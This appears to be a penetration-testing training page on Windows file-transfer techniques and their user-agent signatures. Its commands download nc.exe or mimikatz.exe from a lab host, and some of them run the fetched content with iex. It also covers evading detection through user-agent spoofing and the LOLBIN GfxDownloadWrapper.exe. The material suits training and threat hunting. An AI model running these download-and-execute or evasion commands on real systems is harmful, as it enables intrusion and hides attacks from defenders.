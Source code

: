 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [Detection](#Detection)
      - [Invoke-WebRequest - Client](#Invoke-WebRequest\-\Client)
      - [Invoke-WebRequest - Server](#Invoke-WebRequest\-\Server)
      - [WinHttpRequest - Client](#WinHttpRequest\-\Client)
      - [WinHttpRequest - Server](#WinHttpRequest\-\Server)
      - [Msxml2 - Client](#Msxml2\-\Client)
      - [Msxml2 - Server](#Msxml2\-\Server)
      - [Certutil - Client](#Certutil\-\Client)
      - [Certutil - Server](#Certutil\-\Server)
      - [BITS - Server](#BITS\-\Server)
  - [Evading Detection](#Evading\Detection)
  - [Listing out User Agents](#Listing\out\User\Agents)
      - [Request with Chrome User Agent](#Request\with\Chrome\User\Agent)
      - [Transferring File with GfxDownloadWrapper.exe](#Transferring\File\with\GfxDownloadWrapper.exe)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [Detection](#Detection)
      - [Invoke-WebRequest - Client](#Invoke-WebRequest\-\Client)
      - [Invoke-WebRequest - Server](#Invoke-WebRequest\-\Server)
      - [WinHttpRequest - Client](#WinHttpRequest\-\Client)
      - [WinHttpRequest - Server](#WinHttpRequest\-\Server)
      - [Msxml2 - Client](#Msxml2\-\Client)
      - [Msxml2 - Server](#Msxml2\-\Server)
      - [Certutil - Client](#Certutil\-\Client)
      - [Certutil - Server](#Certutil\-\Server)
      - [BITS - Server](#BITS\-\Server)
  - [Evading Detection](#Evading\Detection)
  - [Listing out User Agents](#Listing\out\User\Agents)
      - [Request with Chrome User Agent](#Request\with\Chrome\User\Agent)
      - [Transferring File with GfxDownloadWrapper.exe](#Transferring\File\with\GfxDownloadWrapper.exe)



### Detection

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common `HTTP` transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

#### Invoke-WebRequest - Client

  Invoke-WebRequest - Client

```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

#### Invoke-WebRequest - Server

  Invoke-WebRequest - Server

```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest - Client

  WinHttpRequest - Client

```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

#### WinHttpRequest - Server

  WinHttpRequest - Server

```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

#### Msxml2 - Client

  Msxml2 - Client

```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

#### Msxml2 - Server

  Msxml2 - Server

```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```
#### Certutil - Client

  Certutil - Client

```cmd-session
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

#### Certutil - Server

  Certutil - Server

```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```
```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

#### BITS - Server

  BITS - Server

```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.


## Evading Detection

**Changing User Agents**
If good admins/defenders have blacklisted any of these user agents. Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, Or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate

## Listing out User Agents
Listing out User Agents

```powershell-session
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

#### Request with Chrome User Agent

  Request with Chrome User Agent

```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

  
Request with Chrome User Agent

```shell-session
gdxqpardo@htb[/htb]$ nc -lvnp 80
```

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

#### Transferring File with GfxDownloadWrapper.exe

  Transferring File with GfxDownloadWrapper.exe

```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```






























